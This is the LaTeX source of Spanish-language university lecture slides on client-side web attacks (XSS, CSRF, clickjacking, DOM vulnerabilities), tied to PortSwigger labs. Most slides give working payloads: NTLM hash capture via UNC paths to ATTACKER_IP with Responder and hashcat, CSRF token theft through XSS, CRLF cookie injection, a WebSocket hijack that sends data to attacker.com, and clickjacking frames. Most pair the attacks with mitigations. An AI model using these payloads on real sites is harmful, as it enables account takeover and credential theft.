  \item \cmd{\# \textless{}img src=\textquotedbl{}\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}ATTACKER\_IP\textbackslash\{\}\textbackslash\{\}x\textquotedbl{}\textgreater{}}
  \item \cmd{\# \textless{}script\textgreater{}document.location='\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}ATTACKER\_IP\textbackslash\{\}\textbackslash\{\}x'\textless{}/script\textgreater{}}
  \item \cmd{\# \textless{}link rel=\textquotedbl{}stylesheet\textquotedbl{} href=\textquotedbl{}\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}\textbackslash\{\}ATTACKER\_IP\textbackslash\{\}\textbackslash\{\}x\textquotedbl{}\textgreater{}}
  \item Captura con Responder
  \item \cmd{\# python3 Responder.py -I eth0 -wPv}
  \item $\rightarrow$ Captura el hash NTLMv2 enviado por el navegador de la víctima
  \item Crackeo del hash
  \item \cmd{\# hashcat -m 5600 ntlmv2.txt /usr/share/wordlists/rockyou.txt}
  \item \cmd{\# john --format=netntlmv2 ntlmv2.txt --wordlist=rockyou.txt}
  \item Condiciones necesarias
  \item Víctima en red corporativa Windows con IE/Edge Legacy
  \item XSS almacenado (afecta a múltiples víctimas)
  \item Firefox y Chrome NO envían NTLM a rutas UNC externas
  \item Efectivo en entornos AD con políticas de proxy NTLM habilitadas
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS --- File Upload}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Si la app sirve ficheros subidos en el mismo origen $\rightarrow$ XSS
  \item SVG con script embebido
  \item \cmd{\# \textless{}svg xmlns=\textquotedbl{}http://www.w3.org/2000/svg\textquotedbl{}\textgreater{}}
  \item \cmd{\# \textless{}script\textgreater{}alert(document.domain+': '+document.cookie)\textless{}/script\textgreater{}}
  \item \cmd{\# \textless{}/svg\textgreater{}}
  \item $\rightarrow$ Subir como .svg y acceder a la URL directa del fichero
  \item HTML upload
  \item Si se permiten .html / .htm $\rightarrow$ HTML con \textless{}script\textgreater{} completo
  \item Mismo origen $\rightarrow$ cookies accesibles
  \item Metadata EXIF en imágenes
  \item \cmd{\# exiftool -DocumentName='\textless{}script\textgreater{}alert(1)\textless{}/script\textgreater{}' imagen.jpg}
  \item $\rightarrow$ Si la galería renderiza metadatos sin sanitizar
  \item SVG en \textless{}img\textgreater{} vs URL directa
  \item \textless{}img src=file.svg\textgreater{} $\rightarrow$ NO ejecuta scripts (sandboxed)
  \item URL directa a file.svg $\rightarrow$ SÍ ejecuta scripts (mismo origen)
  \item Mitigaciones
  \item Servir ficheros de usuario desde subdominio / CDN separado
  \item Validar Content-Type real (magic bytes, no solo extensión)
  \item Sanitizar SVG con DOMPurify antes de servirlos
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS $\rightarrow$ CSRF: Encadenamiento de Vulnerabilidades}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Concepto --- por qué XSS invalida la protección CSRF
  \item El XSS ejecuta JS en el origen de la aplicación víctima (same-origin).
  \item Las peticiones hechas desde ese JS incluyen automáticamente las cookies de sesión.
  \item Con same-origin, el JS puede LEER la respuesta $\rightarrow$ puede extraer tokens CSRF.
  \item $\rightarrow$ SameSite=Strict/Lax no ayuda porque la petición viene del mismo site.
  \item Flujo del ataque (Labs 49-50)
  \item 1. Atacante explota XSS en la app objetivo
  \item 2. El payload XSS hace GET de una página con formulario CSRF-protegido
  \item 3. Parsea el token CSRF del HTML de la respuesta
  \item 4. Envía POST con ese token válido $\rightarrow$ acción ejecutada como la víctima
  \item Payload XSS (en un solo bloque)
  \item \cmd{var r=new XMLHttpRequest();}
  \item \cmd{r.open('GET','/my-account',true);}
  \item \cmd{r.onload=function()\{}
  \item \cmd{var tok=r.responseText.match(/csrf\textquotedbl{} value=\textquotedbl{}([\textasciicircum{}\textquotedbl{}]+)/)[1];}
  \item \cmd{var x=new XMLHttpRequest();}
  \item \cmd{x.open('POST','/my-account/change-email',true);}
  \item \cmd{x.setRequestHeader('Content-Type','application/x-www-form-urlencoded');}
  \item \cmd{x.send('email=evil@attacker.com\&csrf='+tok);}
  \item \cmd{\};r.send();}
  \item SameSite=Strict/Lax + sin XSS = CSRF mitigado. XSS rompe esa garantía.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Laboratorios XSS --- PortSwigger Academy}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Básico y contextos HTML / atributo / DOM
  \item Lab 27: Reflejado en HTML $\cdot$ Lab 28: Almacenado en HTML
  \item Lab 29: DOM document.write $\cdot$ Lab 30: DOM innerHTML $\cdot$ Lab 31: DOM href+jQuery
  \item Lab 32: DOM hashchange $\cdot$ Lab 33: atributo $\cdot$ Lab 34: href almacenado
  \item Lab 35: string JS $\cdot$ Lab 36: AngularJS DOM
  \item Lab 37: DOM reflejado $\cdot$ Lab 38: DOM almacenado
  \item Filtros, WAF, evasión
  \item Labs 39-43: etiquetas bloqueadas, custom, SVG, canonical
  \item Labs 44-46: escapes JS, onclick entities, template literals
  \item Labs 47-48: robo de cookies y contraseñas
  \item Labs 49-50: evasión de CSRF usando XSS
  \item AngularJS, CSP, evasión avanzada
  \item Labs 51-52: AngularJS sandbox escape sin strings
  \item Lab 53: AngularJS sandbox + CSP
  \item Lab 54: eventos/atributos bloqueados
  \item Labs 55-56: javascript: con caracteres limitados
  \item Labs 57-59: CSP estricto + dangling markup
  \item portswigger.net/web-security/all-labs\#cross-site-scripting
  \end{itemize}
\end{frame}

\section{CSRF --- PortSwigger Academy}

\begin{frame}[allowframebreaks]{Cross-Site Request Forgery (CSRF) --- Introducción}
\small
  \begin{itemize}
  \item CSRF
  \item ¿Qué es CSRF?
  \item Ataque que fuerza al navegador de la víctima a enviar peticiones no deseadas
  \item a una aplicación en la que está autenticada.
  \item El servidor ejecuta la acción creyendo que fue el usuario quien la inició.
  \item Condiciones necesarias
  \item La víctima está autenticada en la app objetivo
  \item La acción tiene efectos (transferir, cambiar email, borrar cuenta...)
  \item Los parámetros son predecibles y sin token CSRF validado
  \item Ejemplo básico (Lab 61)
  \item \cmd{\# \textless{}form action='https://bank.com/transfer' method='POST'\textgreater{}}
  \item \cmd{\# \textless{}input type=hidden name=amount value=5000\textgreater{}}
  \item \cmd{\# \textless{}input type=hidden name=to value=attacker\_account\textgreater{}}
  \item \cmd{\# \textless{}/form\textgreater{}}
  \item \cmd{\# \textless{}script\textgreater{}document.forms[0].submit();\textless{}/script\textgreater{}}
  \item $\rightarrow$ La víctima visita la página atacante $\rightarrow$ formulario enviado automáticamente
  \item OWASP Top 10 2021: A01 --- Broken Access Control
  \item CWE-352: Cross-Site Request Forgery
  \item portswigger.net/web-security/csrf
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{CSRF --- Bypass de tokens y métodos HTTP}
\small
  \begin{itemize}
  \item CSRF
  \item Lab 61 --- Sin ninguna defensa
  \item Construir formulario + auto-submit (Burp $\rightarrow$ Generate CSRF PoC)
  \item Lab 62 --- Token validado solo en POST
  \item Bypass: cambiar método a GET
  \item \cmd{\# \textless{}img src='https://victim.com/email?email=att@evil.com'\textgreater{}}
  \item Lab 63 --- Validación solo si el token existe
  \item Omitir completamente el campo csrf $\rightarrow$ el servidor no valida nada
  \item Lab 64 --- Token no vinculado a la sesión
  \item Obtener token propio y usarlo en el ataque contra otra víctima
  \item Labs 65-66 --- Token atado a cookie sin sesión
  \item Token se valida contra una cookie independiente de la sesión de auth
  \item Inyectar cookie en la víctima vía CRLF injection o header injection
  \item Lab 67 --- Token duplicado en cookie
  \item El servidor solo comprueba: cuerpo.csrf === cookie.csrf
  \item Inyectar: cookie csrf=x + campo csrf=x (cualquier valor, siempre que coincidan)
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{CSRF con Token en Cookie --- Inyección CRLF (Labs 65-66)}
\small
  \begin{itemize}
  \item CSRF
  \item El problema --- token atado a cookie independiente
  \item La app emite csrf\_token (cookie) y csrf (campo de formulario) por separado.
  \item Solo verifica que ambos coincidan --- NO que correspondan a la sesión del usuario.
  \item Si el atacante puede plantar una cookie en la víctima, controla ambos valores.
  \item Técnica --- CRLF Injection (\textbackslash\{\}r\textbackslash\{\}n en cabeceras HTTP)
  \item Buscar un endpoint que refleje input en una cabecera de respuesta (Location, Link\dots{}).
  \item Inyectar \textbackslash\{\}r\textbackslash\{\}n para añadir una cabecera Set-Cookie arbitraria:
  \item \cmd{GET /redirect?url=https://victim.com\%0d\%0aSet-Cookie:+csrf=atacante123}
  \item $\rightarrow$ El servidor responde con: Set-Cookie: csrf=atacante123
  \item $\rightarrow$ El navegador almacena la cookie csrf con el valor controlado por el atacante.
  \item Flujo completo del ataque
  \item 1. Encontrar endpoint que refleje parámetro en cabecera sin filtrar CRLF.
  \item 2. Hacer que la víctima visite la URL con inyección $\rightarrow$ cookie plantada.
  \item 3. Enviar formulario CSRF con campo csrf=atacante123 (mismo valor).
  \item 4. El servidor valida cookie === campo $\rightarrow$ CSRF exitoso.
  \item Prevención
  \item Sanitizar \textbackslash\{\}r y \textbackslash\{\}n en cualquier valor que se incluya en cabeceras HTTP.
  \item Vincular el token CSRF a la sesión del usuario (no a una cookie independiente).
  \item Una cookie csrf separada de la sesión convierte CRLF injection en CSRF completo.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{CSRF --- Bypass SameSite}
\small
  \begin{itemize}
  \item CSRF
  \item Atributo SameSite --- protección nativa del navegador
  \item Strict: nunca envía cookie en peticiones cross-site
  \item Lax: envía en navegación top-level GET, NO en POST cross-site
  \item None: siempre (requiere Secure)
  \item Chrome $\geq$80: SameSite=Lax por defecto si no se especifica
  \item Lab 68 --- Bypass SameSite Lax con method override
  \item POST bloqueado; frameworks como Laravel aceptan \_method=POST en GET:
  \item \cmd{\# GET /change-email?email=x\&\_method=POST}
  \item Lab 69 --- SameSite Strict con redirección cliente
  \item Petición originada en el propio sitio (same-site) sí lleva la cookie
  \item Explotar open redirect en la app víctima
  \item Labs 70-71 --- Dominio hermano (sibling subdomain)
  \item Dos subdominios del mismo eTLD+1 son same-site
  \item XSS en sub.victim.com $\rightarrow$ CSRF en app.victim.com
  \item Lab 72 --- Ventana de refresco de cookie
  \item Excepción Lax: 2 min tras login, POST cross-site sí envía cookie
  \item Forzar re-login $\rightarrow$ atacar en la ventana de 2 minutos
  \item portswigger.net/web-security/csrf/bypassing-samesite-restrictions
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{SameSite Strict --- Bypass con Dominio Hermano (Labs 70-71)}
\small
  \begin{itemize}
  \item CSRF
  \item Clave --- same-site $\neq$ same-origin
  \item SameSite opera sobre el eTLD+1 (dominio registrable): victim.com
  \item sub1.victim.com y sub2.victim.com son SAME-SITE entre sí.
  \item Una cookie SameSite=Strict de app.victim.com SE ENVÍA en peticiones desde blog.victim.com.
  \item $\rightarrow$ SameSite=Strict bloquea peticiones cross-site, pero NO cross-subdomain.
  \item Requisito --- XSS en cualquier subdominio hermano
  \item Encontrar XSS en chat.victim.com, blog.victim.com, static.victim.com\dots{}
  \item El JS ejecutado desde ahí puede hacer fetch a app.victim.com con las cookies.
  \item Flujo del ataque
  \item 1. Encontrar XSS almacenado en chat.victim.com.
  \item 2. Inyectar payload que haga fetch cross-subdomain:
  \item \cmd{fetch('https://app.victim.com/change-email', \{}
  \item \cmd{method: 'POST', credentials: 'include',}
  \item \cmd{body: 'email=attacker@evil.com',}
  \item \cmd{headers: \{'Content-Type': 'application/x-www-form-urlencoded'\}}
  \item \cmd{\});}
  \item 3. Víctima visita chat.victim.com $\rightarrow$ fetch a app.victim.com con sus cookies $\rightarrow$ CSRF.
  \item Variante --- Cross-Site WebSocket Hijacking (CSWSH)
  \item Si el dominio hermano usa WebSockets autenticados:
  \item \cmd{var ws = new WebSocket('wss://app.victim.com/chat');}
  \item \cmd{ws.onmessage = e =\textgreater{} fetch('https://attacker.com/?d=' + e.data);}
  \item Cualquier subdominio mal asegurado puede comprometer toda la app principal.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{SameSite Lax --- Ventana de Refresco de Cookie (Lab 72)}
\small
  \begin{itemize}
  \item CSRF
  \item La excepción de 2 minutos en SameSite=Lax
  \item Por compatibilidad con flujos OAuth/SSO, Chrome aplica una excepción:
  \item Si una cookie SameSite=Lax fue emitida hace MENOS de 2 minutos,
  \item el navegador la envía también en peticiones POST cross-site.
  \item $\rightarrow$ El reloj empieza cuando se emite la cookie, no cuando expira la sesión.
  \item Requisito --- gadget de re-login silencioso
  \item Necesitamos un endpoint que renueve la cookie de sesión sin interacción:
  \item /oauth/login, /social-login, /sso $\rightarrow$ emiten una nueva cookie cada vez.
  \item El truco: forzar al navegador de la víctima a hacer ese login $\rightarrow$ cookie renovada.
  \item Flujo del ataque
  \item 1. Víctima hace clic en la página del atacante (necesario para abrir popup).
  \item 2. Se abre popup a https://victim.com/social-login $\rightarrow$ cookie renovada.
  \item 3. Atacante espera \textasciitilde{}1-2 segundos y cierra el popup.
  \item 4. Envía el formulario CSRF POST cross-site dentro de la ventana de 2 min.
  \item 5. Navegador incluye la cookie Lax recién emitida $\rightarrow$ CSRF exitoso.
  \item Código del exploit
  \item \cmd{window.onclick = () =\textgreater{} \{}
  \item \cmd{var w = window.open('https://victim.com/social-login');}
  \item \cmd{setTimeout(() =\textgreater{} \{}
  \item \cmd{w.close();}
  \item \cmd{document.forms[0].submit(); // formulario CSRF}
  \item \cmd{\}, 5000); // 5 s dentro de la ventana de 2 min}
  \item \cmd{\};}
  \item Mitigación: usar SameSite=Strict para cookies de sesión, o exigir re-auth en acciones críticas.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{CSRF --- Bypass del header Referer}
\small
  \begin{itemize}
  \item CSRF
  \item Lab 73 --- Validación Referer solo si existe
  \item Suprimir el Referer con meta tag:
  \item \cmd{\# \textless{}meta name=referrer content=no-referrer\textgreater{}}
  \item Lab 74 --- Validación Referer insuficiente
  \item El servidor comprueba que el Referer contiene el dominio legítimo
  \item Bypass (la URL del atacante contiene el dominio como subdirectorio/param):
  \item \cmd{\# https://victim.com.attacker.com/exploit}
  \item \cmd{\# https://attacker.com/exploit?victim.com}
  \item CSRF + XSS --- evasión total (Labs 49-50)
  \item XSS en el mismo origen permite leer el token CSRF del DOM:
  \item \cmd{\# fetch('/settings').then(r=\textgreater{}r.text()).then(html=\textgreater{}\{}
  \item \cmd{\# const t = html.match(/name=.csrf. value=.(\textbackslash\{\}w+)/)[1];}
  \item \cmd{\# fetch('/email/change',\{method:'POST',credentials:'include',}
  \item \cmd{\# body:'csrf='+t+'\&email=attacker@evil.com',}
  \item \cmd{\# headers:\{'Content-Type':'application/x-www-form-urlencoded'\}\})}
  \item \cmd{\# \});}
  \item Defensa completa recomendada
  \item Token CSRF sincronizado + SameSite=Strict + verificar Origin/Referer
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Laboratorios CSRF --- PortSwigger Academy}
\small
  \begin{itemize}
  \item CSRF
  \item Lab 61: Sin ningún tipo de defensa
  \item Lab 62: Token validado según método HTTP
  \item Lab 63: Validación solo si el token está presente
  \item Lab 64: Token no vinculado a la sesión
  \item Lab 65-66: Token atado a cookie sin sesión
  \item Lab 67: Token duplicado en cookie
  \item Lab 68: Bypass SameSite Lax con method override
  \item Lab 69: Bypass SameSite Strict con redirección cliente
  \item Lab 70-71: Bypass SameSite Strict con dominio hermano
  \item Lab 72: Bypass SameSite Lax con refresco de cookie
  \item Lab 73: Validación Referer solo si existe
  \item Lab 74: Validación Referer vulnerable
  \item Relación con XSS
  \item Labs 49-50: Evasión de CSRF usando XSS
  \item $\rightarrow$ XSS puede eliminar cualquier defensa CSRF al leer el token desde el DOM
  \item portswigger.net/web-security/all-labs\#cross-site-request-forgery-csrf
  \end{itemize}
\end{frame}

\section{Clickjacking --- PortSwigger Academy}

\begin{frame}[allowframebreaks]{Clickjacking --- Introducción}
\small
  \begin{itemize}
  \item Clickjacking
  \item ¿Qué es Clickjacking?
  \item Iframe transparente de la página víctima superpuesto sobre contenido señuelo.
  \item La víctima hace clic creyendo interactuar con el señuelo, pero en realidad
  \item está activando una acción sensible en la página víctima.
  \item Código básico de ataque
  \item \cmd{\# \textless{}style\textgreater{}}
  \item \cmd{\# \#victim \{ opacity:0.00001; position:absolute; top:300px; left:200px; \}}
  \item \cmd{\# \#decoy \{ position:absolute; top:300px; left:200px; \}}
  \item \cmd{\# \textless{}/style\textgreater{}}
  \item \cmd{\# \textless{}div id=decoy\textgreater{}¡Gana un iPhone! CLICK AQUÍ\textless{}/div\textgreater{}}
  \item \cmd{\# \textless{}iframe id=victim src='https://bank.com/account/delete'\textgreater{}\textless{}/iframe\textgreater{}}
  \item Acciones típicas abusadas
  \item Borrar cuenta $\cdot$ Cambiar email/contraseña $\cdot$ Autorizar OAuth
  \item Transferencias $\cdot$ Habilitar cámara/micrófono
  \item Por qué bypassa CSRF
  \item El usuario hace clic 'voluntariamente' $\rightarrow$ el navegador envía la cookie legítimamente
  \item Los tokens CSRF están presentes (el iframe los incluye)
  \item Defensa
  \item CSP: frame-ancestors 'none' (estándar moderno, recomendado)
  \item X-Frame-Options: DENY (legacy, ampliamente soportado)
  \item portswigger.net/web-security/clickjacking
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Clickjacking --- Técnicas avanzadas}
\small
  \begin{itemize}
  \item Clickjacking
  \item Lab 76 --- Básico con token CSRF
  \item Posicionar el botón 'Delete Account' bajo el señuelo usando top/left/margin
  \item El iframe incluye el token CSRF --- el clic lo envía legítimamente
  \item Lab 77 --- Datos precargados por parámetro GET
  \item \cmd{\# /change-email?email=attacker@evil.com}
  \item El formulario ya tiene el email del atacante relleno; víctima solo confirma
  \item Lab 78 --- Bypass de frame-busting JS
  \item Código víctima: if (top != self) \{ top.location = self.location; \}
  \item Bypass: sandbox en el iframe bloquea el JS pero permite formularios:
  \item \cmd{\# \textless{}iframe sandbox='allow-forms' src='https://victim.com/delete'\textgreater{}}
  \item Lab 79 --- Clickjacking para explotar XSS DOM
  \item El clic activa un onfocus/onclick con payload XSS
  \item $\rightarrow$ Ejecución de JS en el origen de la víctima vía clickjacking
  \item Lab 80 --- Multi-step clickjacking
  \item La acción requiere múltiples clics (confirmar, aceptar términos)
  \item Diseñar múltiples señuelos coordinados con cada paso del flujo
  \item Herramienta: Burp Suite Clickbandit
  \item Burp menu $\rightarrow$ Burp Clickbandit $\rightarrow$ genera HTML de ataque automáticamente
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Laboratorios Clickjacking --- PortSwigger Academy}
\small
  \begin{itemize}
  \item Clickjacking
  \item Lab 76: Clickjacking básico con token CSRF
  \item Lab 77: Datos precargados por parámetro
  \item Lab 78: Anti-frame script (frame-busting bypass)
  \item Lab 79: Clickjacking para XSS DOM
  \item Lab 80: Multi-step clickjacking
  \item Detección rápida
  \item \cmd{\# curl -sI https://victim.com/sensitive | grep -i 'x-frame\textbackslash\{\}|csp'}
  \item Sin X-Frame-Options ni CSP frame-ancestors $\rightarrow$ posiblemente vulnerable
  \item Notas importantes
  \item X-Frame-Options: no soporta whitelist de dominios (solo DENY/SAMEORIGIN)
  \item CSP frame-ancestors es más flexible y tiene precedencia sobre X-Frame-Options
  \item Clickjacking requiere que la acción sea visible en un iframe (sin framebusting)
  \item portswigger.net/web-security/all-labs\#clickjacking
  \end{itemize}
\end{frame}

\section{Vulnerabilidades basadas en DOM}

\begin{frame}[allowframebreaks]{Vulnerabilidades basadas en el DOM --- Introducción}
\small
  \begin{itemize}
  \item Vulnerabilidades DOM
  \item El DOM como superficie de ataque extendida
  \item Más allá del XSS DOM, el DOM expone otras vulnerabilidades que permiten
  \item robo de datos, redireccionamientos y bypass de controles de seguridad.
  \item Categorías en esta sección
  \item Web Messages (postMessage): fuente de datos no validada
  \item Open Redirect DOM: redirección controlable por el atacante
  \item Manipulación de cookies vía DOM: escritura desde JS
  \item DOM Clobbering: sobrescritura de variables JS con elementos HTML
  \item Fuentes relevantes
  \item window.postMessage() location.hash location.search
  \item window.name document.cookie
  \item Diferencia con XSS DOM
  \item XSS DOM $\rightarrow$ ejecución de código JavaScript arbitrario
  \item Open Redirect $\rightarrow$ redirección a URL arbitraria
  \item Cookie DOM $\rightarrow$ inyección de valores en document.cookie
  \item DOM Clobbering $\rightarrow$ corrupción del estado JS de la aplicación
  \item portswigger.net/web-security/dom-based
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{DOM --- Web Messages (postMessage)}
\small
  \begin{itemize}
  \item Vulnerabilidades DOM
  \item ¿Qué es postMessage?
  \item API HTML5 para comunicación entre ventanas/iframes de distintos orígenes.
  \item El receptor DEBE validar el origen --- si no lo hace, es vulnerable.
  \item Lab 82 --- XSS DOM con Web Messages (sin validación de origen)
  \item \cmd{\# window.addEventListener('message', function(e) \{}
  \item \cmd{\# document.getElementById('ads').innerHTML = e.data; // sink!}
  \item \cmd{\# \});}
  \item \cmd{\# Payload (iframe con onload):}
  \item \cmd{\# \textless{}iframe src='https://victim.com'}
  \item \cmd{\# onload='this.contentWindow.postMessage(\textquotedbl{}\textless{}img src=x onerror=alert(1)\textgreater{}\textquotedbl{},\textquotedbl{}*\textquotedbl{})'\textgreater{}}
  \item Lab 83 --- postMessage con URL javascript:
  \item \cmd{\# handler: element.href = e.data}
  \item \cmd{\# Payload: postMessage('javascript:alert(1)', '*')}
  \item Lab 84 --- postMessage con JSON.parse
  \item \cmd{\# var data = JSON.parse(event.data); window.location = data.redirectUrl;}
  \item \cmd{\# Payload: \{\textquotedbl{}redirectUrl\textquotedbl{}:\textquotedbl{}javascript:alert(1)\textquotedbl{}\}}
  \item Defensa
  \item Validar siempre: if (e.origin !== 'https://expected.com') return;
  \item No pasar datos de postMessage a sinks sin sanitizar
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{DOM --- Open Redirect y Manipulación de Cookies}
\small
  \begin{itemize}
  \item Vulnerabilidades DOM
  \item Lab 85 --- Open Redirect basado en DOM
  \item JS construye URL de redirección desde location.search:
  \item \cmd{\# var returnUrl = new URLSearchParams(location.search).get('returnUrl');}
  \item \cmd{\# document.getElementById('backLink').href = returnUrl;}
  \item Payload: ?returnUrl=https://attacker.com
  \item Si sink es window.location: ?returnUrl=javascript:alert(1)
  \item Diferencia con open redirect server-side
  \item Server-side: el 302 lo emite el servidor (visible en proxy)
  \item DOM-based: la redirección la ejecuta JS en el cliente
  \item $\rightarrow$ Misma peligrosidad para phishing; a veces más difícil de detectar
  \item Lab 86 --- Manipulación de cookies vía DOM
  \item \cmd{\# document.cookie = 'language=' + location.search.split('lang=')[1];}
  \item Payload: ?lang=en; admin=true
  \item Si la cookie influye en seguridad $\rightarrow$ privilege escalation
  \item Para CSRF: forzar double-submit cookie con valor conocido
  \item Mitigaciones
  \item Validar returnUrl: debe empezar por '/' o ser del propio dominio
  \item No escribir document.cookie con datos de location.*
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{DOM Clobbering}
\small
  \begin{itemize}
  \item Vulnerabilidades DOM
  \item ¿Qué es DOM Clobbering?
  \item Los elementos HTML con id o name se asignan automáticamente a window:
  \item \cmd{\# \textless{}a id=config\textgreater{}\textless{}/a\textgreater{} $\rightarrow$ window.config = \textless{}a\textgreater{} element}
  \item \cmd{\# \textless{}a id=cfg\textgreater{}\textless{}a id=cfg name=endpoint href='//attacker.com'\textgreater{}}
  \item $\rightarrow$ cfg.endpoint.toString() = 'https://attacker.com'
  \item Labs 87-88 --- XSS mediante DOM Clobbering
  \item Código vulnerable:
  \item \cmd{\# var cfg = window.cfg || \{\};}
  \item \cmd{\# loadScript(cfg.endpoint); // si cfg es undefined, usa default seguro}
  \item Inyectando \textless{}a id=cfg href=//attacker.com/malicious.js\textgreater{}
  \item $\rightarrow$ cfg.endpoint = URL del atacante $\rightarrow$ loadScript la ejecuta
  \item Labs 89-90 --- Bypass de filtros HTML con DOM Clobbering
  \item Versiones antiguas de DOMPurify son vulnerables a clobbering
  \item de variables internas del sanitizador $\rightarrow$ bypass del filtro XSS
  \item \cmd{\# \textless{}form id=x\textgreater{}\textless{}output id=x name=innerHTML\textgreater{}}
  \item \cmd{\# \textless{}img src=x onerror=alert(1)\textgreater{}\textless{}/output\textgreater{}\textless{}/form\textgreater{}}
  \item Defensa
  \item No confiar en propiedades globales de window que puedan ser clobbered
  \item Usar let/const en scope local en vez de window.x
  \item DOMPurify actualizado con SANITIZE\_DOM: true
  \item portswigger.net/web-security/dom-based/dom-clobbering
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Laboratorios DOM --- PortSwigger Academy}
\small
  \begin{itemize}
  \item Vulnerabilidades DOM
  \item Lab 82: XSS DOM usando Web Messages
  \item Lab 83: XSS DOM con Web Messages y URL javascript:
  \item Lab 84: XSS DOM con Web Messages y JSON.parse
  \item Lab 85: Redirección abierta basada en el DOM
  \item Lab 86: Manipulación de cookies vía DOM
  \item Lab 87-88: XSS mediante clobbering en el DOM
  \item Lab 89-90: Bypass de filtros HTML con clobbering DOM
  \item Herramientas de análisis DOM
  \item Burp Suite Pro --- DOM Invader: detecta sources y sinks automáticamente
  \item DevTools $\rightarrow$ Event Listener Breakpoints $\rightarrow$ message
  \item DOMLogger++ (extensión Chrome): instrumenta document.write, innerHTML...
  \item Metodología
  \item $\rightarrow$ Identificar fuentes controlables: location.*, postMessage, document.*
  \item $\rightarrow$ Trazar el flujo de datos hasta un sink peligroso
  \item $\rightarrow$ Determinar si hay sanitización/validación en el camino
  \item $\rightarrow$ Construir payload que explote el sink específico
  \item portswigger.net/web-security/all-labs\#dom-based-vulnerabilities
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Hacking de Aplicaciones Web:}
\small
  \begin{itemize}
  \item Ataques en el Lado del Cliente
  \end{itemize}
\end{frame}

\begin{frame}{Referencias y práctica --- Vulnerabilidades basadas en DOM}
\footnotesize
  \begin{itemize}
  \item \href{https://portswigger.net/web-security/dom-based}{PortSwigger --- DOM-based vulnerabilities} (labs)
  \item \href{https://github.com/wisec/domxsswiki/wiki}{DOM XSS Wiki --- sources \& sinks}
  \end{itemize}
\end{frame}

\begin{frame}[plain]
  \begin{center}
    {\Huge\bfseries\color{uznavy} ¡Gracias!}\\[1em]
    {\large Seguridad en Sistemas Informáticos --- Tema 4.1}
  \end{center}
\end{frame}

\pdfinfo{ /Title () /Author () /Subject () /Keywords () /Creator () /Producer () }
\end{document}